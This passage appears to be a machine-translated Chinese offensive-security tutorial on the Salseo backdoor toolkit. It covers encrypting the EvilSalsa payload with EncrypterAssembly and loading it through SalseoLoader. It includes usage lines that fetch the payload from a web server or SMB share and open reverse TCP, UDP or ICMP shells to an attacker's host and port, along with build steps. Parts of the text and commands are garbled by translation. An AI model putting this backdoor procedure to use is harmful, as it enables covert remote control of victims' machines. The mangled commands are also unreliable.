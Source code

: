 EncrypterAssembly 可以用作 Python 脚本或 Exe 二进制文件。它加密先前生成的 EvilSalsa。

Python 用法:

**python encrypterasmbly . py**<file>**<password></password>**</file>

 ****可执行文件用法:

**Encrypterassembly.exe**<file>T3T5**T7**</file>

**用 SalseoLoader 将加密的 EvilSalsa 带到餐桌上**

SalseoLoader 负责加载加密的有效载荷。既可以编译为库，也可以编译为可执行文件。如果它作为可执行文件运行，则必须在运行可执行文件时提供所选的参数。

如果它被编译成一个库，描述符“main”必须被导出。使用环境变量添加参数。

**用法:** 
–salseloader . exe 密码 http://web server . com/elpcinggal . txt revertcp lhost lport
–salseloader . exe 密码\ smbserver . com \ evil \ elpcinggal . txt reverseud lhost lport
–salseloader . exe 密码 c:\ temp \ elpcinggal . txt reversecmp

**教程**

**编译二进制文件**

从 github 下载源代码，编译 **EvilSalsa** 和 **SalseoLoader** 。你需要安装 **Visual Studio** 来编译代码。

针对您将要使用的 windows box 的体系结构编译这些项目(如果 windows 支持 x64，则针对该体系结构编译它们)。

您可以**在【平台目标】**的**左侧“构建”标签中选择 Visual Studio 内部的架构**。

(如果您找不到此选项，请在“**项目选项卡**中按下，然后在“**属性**”中按下)

![](img/8fc7bfb6a71bce6a385c96ce7c106070.png)

然后，构建两个项目(构建->构建解决方案)(在日志中会出现可执行文件的路径):

![](img/1ff5d383fbf49c78d44b7daa043d1cdb.png)

**准备借壳**

首先，你需要对**EvilSalsa.dll**进行编码。为此，可以使用 python 脚本**encrypterasembly . py**或者编译项目**encrypterasembly**
